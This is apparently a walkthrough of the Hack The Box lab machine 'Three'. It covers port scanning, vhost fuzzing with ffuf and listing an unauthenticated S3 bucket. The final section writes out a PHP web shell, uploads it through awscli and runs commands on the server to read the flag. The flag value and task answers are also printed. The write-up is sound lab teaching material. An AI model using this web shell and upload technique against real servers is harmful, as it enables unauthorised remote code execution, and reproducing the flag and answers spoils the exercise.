


## Overview
---
Part of the "starting point"  boxes on HTB, Three has a set of tasks with questions that provide a framework to walk through the machine. Three introduces vhost enumeration, editing `/etc/hosts` and utilizing misconfigured AWS s3 buckets to drop PHP code on a server to achieve remote code execution. As this machine is part of the “starting point” category, many of the tasks are fundamental knowledge questions - I highly recommend researching them a bit if you do not know the answer instead of copy/pasting.

|                  |               |
| ---------------- | ------------- |
| **Release Date** | 03 Aug, 2022  |
| **Difficulty**   | Very Easy     |
| **OS**           | Linux         |
| **Created By**   | [kavigihan](https://app.hackthebox.com/users/389926) |

---

## Tasks

---

### Task 1
---

How many TCP ports are open?


As usual, we can start out with a quick nmap scan:
```bash
[ice@parrot]─[~/Three]
└──╼ $nmap -p- --reason --min-rate 5000 10.129.139.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-11 00:40 EDT
Nmap scan report for 10.129.139.131
Host is up, received reset ttl 63 (0.075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Nmap done: 1 IP address (1 host up) scanned in 13.58 seconds
```


2


---

### Task 2
---

What is the domain of the email address provided in the "Contact" section of the website?


We can navigate to the webpage in a browser using the target IP, then go to the "Contact" page. There we will see an email from which we can grab the domain.


thetoppers.htb


---

### Task 3
---

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?


We can edit `/etc/hosts` to resolve hostnames to IP addresses - and let's do it for this site with the domain provided at the top of the page for the box:
```bash
[ice@parrot]─[~/Three]$ sudo vim /etc/hosts
  1 # Host addresses$
  2 127.0.0.1  localhost$
  3 127.0.1.1  parrot$
  4 ::1        localhost ip6-localhost ip6-loopback$
  5 ff02::1    ip6-allnodes$
  6 ff02::2    ip6-allrouters$
  7 # Others$
  8 10.129.139.131 thetoppers.htb
```


`/etc/hosts`


---

### Task 4
---

Which sub-domain is discovered during further enumeration?


We'll have to do some subdomain fuzzing, there are multiple tools that can be used for this but I'll be using `FFUF`. Here are some of the options FFUF takes:
- `-w` wordlist to use for fuzzing
- `-mc` matches http code(s)
- `-H` host to use, in this case I'll be fuzzing for vhosts since we can't fuzz for subdomains directly (since they will not resolve due to DNS)
- `fs` filter out by page size, great for fuzzing, can find the proper size to use by running once without it and seeing the common response size

```bash
[ice@parrot]─[~]$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb -H "Host: FUZZ.thetoppers.htb" -fs 11952 -mc all

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://thetoppers.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.thetoppers.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 11952
________________________________________________

s3                      [Status: 404, Size: 21, Words: 2, Lines: 1, Duration: 84ms]
```

Let's add that to our hosts file in case we need it later:
```bash
[ice@parrot]─[~/Three]$ sudo vim /etc/hosts
  1 # Host addresses$
  2 127.0.0.1  localhost$
  3 127.0.1.1  parrot$
  4 ::1        localhost ip6-localhost ip6-loopback$
  5 ff02::1    ip6-allnodes$
  6 ff02::2    ip6-allrouters$
  7 # Others$
  8 10.129.139.131 thetoppers.htb
  9 10.129.139.131 s3.thetoppers.htb
```


s3


---

### Task 5
---

Which service is running on the discovered sub-domain?


A quick search of "s3 subdomain" brings up AWS, which is a cloud service provided by Amazon.


Amazon s3


---

### Task 6
---

Which command line utility can be used to interact with the service running on the discovered sub-domain?


Another quick search of "Amazon s3 cli tool" brings up the [AWS CLI](https://aws.amazon.com/cli/) tool.


awscli


---

### Task 7
---

Which command is used to set up the AWS CLI installation?


We can check out the [AWS CLI documentation](https://docs.aws.amazon.com/cli/latest/reference/) and search around for configuration related commands.


aws configure


---

### Task 8
---

What is the command used by the above utility to list all of the S3 buckets?


Again, searching through the command reference for s3 commands can help us find the command we need.


aws s3 ls


---

### Task 9
---

This server is configured to run files written in what web scripting language?


Let's see, if we want to figure out what is running on this s3 bucket we're going to need to start by configuring `awscli` -- I just used dummy values to start:
```bash
[ice@parrot]─[~/Three]$ aws configure
AWS Access Key ID [None]: tmp
AWS Secret Access Key [None]: tmp
Default region name [None]: tmp
Default output format [None]: tmp
```

Next, we can try using aws ls on the remote s3 bucket by using the `--endpoint-url` flag, as mentioned by the [documentation](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html):
```bash
[ice@parrot]─[~/Three]$ aws s3 ls --endpoint-url http://s3.thetoppers.htb
2026-07-11 00:27:34 thetoppers.htb
```

Alright, it appears we have a folder, we can use the `s3://` URI scheme to try listing out what's in there:
```bash
[ice@parrot]─[~/Three]$ aws s3 ls --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb
                           PRE images/
2026-07-11 00:27:34          0 .htaccess
2026-07-11 00:27:34      11952 index.php
```

Looks like we have a PHP file! That must be what the target server is running.


PHP


---

### Submit Single Flag
---
Lastly, we're being asked to submit the flag located in `/var/www` - but how can we get that flag? There's no /var/www s3 bucket, after all s3 is a flat file storage solution, it's not the website server here. It's safe to assume that we need to figure out a way to get ourselves access to the server instead.

Since the s3 bucket is being hosted on the same domain as the website we explored earlier, it's safe to assume the website is hosting files from the s3 bucket. We can semi-confirm this by appending `index.php` (the file we found on the s3 bucket) to the end of the webpage URL e.g. `http://thetoppers.htb/index.php` and seeing that it still loads (we can also try the other file, `.htaccess`, and will find that it returns "Forbidden" instead of "Not Found", implying it does exist).

Great, that means in theory we can upload a file to that s3 bucket and run it on the server by trying to access it through our web browser.

We know that the server is hosting PHP files, so let's make a quick PHP script that will allow us to run commands using a browser argument:
```bash
<?php system($_GET["cmd"]); ?>
```

We can store this as `shell.php` and upload it to the remote s3 bucket using:
```bash
[ice@parrot]─[~/Three]$ aws s3 --endpoint-url http://s3.thetoppers.htb cp ./shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

Now we can test the shell through our browser, let's try with `http://thetoppers.htb/shell.php?cmd=ls`:



Great! This means we have RCE on the machine, all that's left to do is find the get flag in `/var/www` - we can check where we are right now with `http://thetoppers.htb/shell.php?cmd=pwd`, which shows us in `/var/www/html`, so all we need to do is navigate up once and our flag should be there!

Let's see:



Now that we know we only need to go up one directory, we can grab our flag with `http://thetoppers.htb/shell.php?cmd=cat+../flag.txt`


a980d99281a28d638ac68b9bf9453c2b


---

## Closing Thoughts
---
Three introduces concepts of vhost fuzzing, utilizing misconfigured AWS s3 bucket access and exploiting RCE with a PHP shell through the browser. I found it very solid in terms of the task steps, though one of the task steps did completely spoil itself (the sub-domain enumeration step, since the answer showed the s3, the rest of the URL was already known) and was completely skippable. The same step was also effectively spoiled due to the **Machine Information** section at the top of the box telling the user to expect a certain status when visiting a specific URL, though I take it this is due to the s3 bucket taking some extra time to spin up after the inital box, which may have been causing more issues with people learning that it was worth.

I think some of the questions directly referring to the commands of AWS tools need to be a bit careful due to potential versioning mismatches/changes in the commands at a later date, but as of writing this all of the ones in this box were fine with current documentation. Great box overall!

---